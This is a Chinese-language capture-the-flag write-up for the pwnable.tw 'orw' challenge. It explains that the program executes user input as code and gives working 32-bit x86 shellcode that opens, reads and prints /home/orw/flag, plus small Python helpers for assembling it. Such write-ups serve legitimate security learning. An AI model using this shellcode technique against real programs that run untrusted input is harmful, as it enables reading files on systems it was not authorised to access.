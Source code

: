 # pwnable.tw 0x1 orw writeup

> 地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)

<!--more-->

## 分析

扔到 Linux 虚拟机里执行一下，提示：`Give my your shellcode:`（应该是 "Give me your shellcode"），结合题目提示：

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.
```

所以解题思路应该是用编写 shellcode，利用 `open`、`read`、`write` 这三个 syscall 读取 `/home/orw/flag` 中的内容。
看反汇编内容也印证了这一猜想：在获取用户输入之后，直接把输入当作指令执行了

![-w1097](https://pan.xnure.com/OneDrive/Pics/blog/15500578031932.jpg ':size=600')

## PWN

下面开始编写 shellcode。先从 C 语言的角度考虑如何实现，伪代码如下：

```c
int fd = open("/home/orw/flag", 0, 0); // 打开文件
read(fd, buffer, count);  // 读取内容
write(1, buffer, count);  // 写到 stdout
```

所以 参考 [Linux System Call Table](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html) 整理成汇编代码：

```asm
; open
xor ecx, ecx     ; ecx = 0
xor edx, edx     ; edx = 0
push ecx         ; 字符串终止符
push 0x67616c66  ; "flag"
push 0x2f2f7772  ; "rw//"
push 0x6f2f2f65  ; "e//o"
push 0x6d6f682f  ; "/hom"
mov ebx, esp     ; ebx = esp, 文件路径
mov eax, 0x5     ; syscall number 5, sys_open
int 0x80         ; call

; read
mov ebx, eax  ; fd
mov ecx, esp  ; buffer
mov edx, 0x30 ; size
mov eax, 0x3  ; read
int 0x80      ; call

; write
mov ebx, 0x1  ; stdout
mov eax, 0x4  ; write
int 0x80      ; call
```

## 附录1

鉴于 `pwntools` 中 `asm()` 方法不支持注释，而我又比较喜欢写注释，所以写了一个简单的 python 函数来处理汇编代码中的注释：

```python
import re

re_pure_asm = re.compile('^(.+?)(?=;)')

def pure_asm(string):
    lines = []
    for line in string.splitlines():
        result = re_pure_asm.findall(line)
        if len(result) > 0:
            lines.append(result[0].strip())
    return '\n'.join(lines)
```

## 附录2

为了比较方便的把 `flag` 这样的字符串转换成 `0x67616c66` 这样的 16进制小端数值，也写了一个简单的 python 方法：

```python
def convert_str_to_hex(string):
    parts = []
    for ch in string:
        parts.insert(0, format(ord(ch), 'x'))
    return '0x' + ''.join(parts)
```
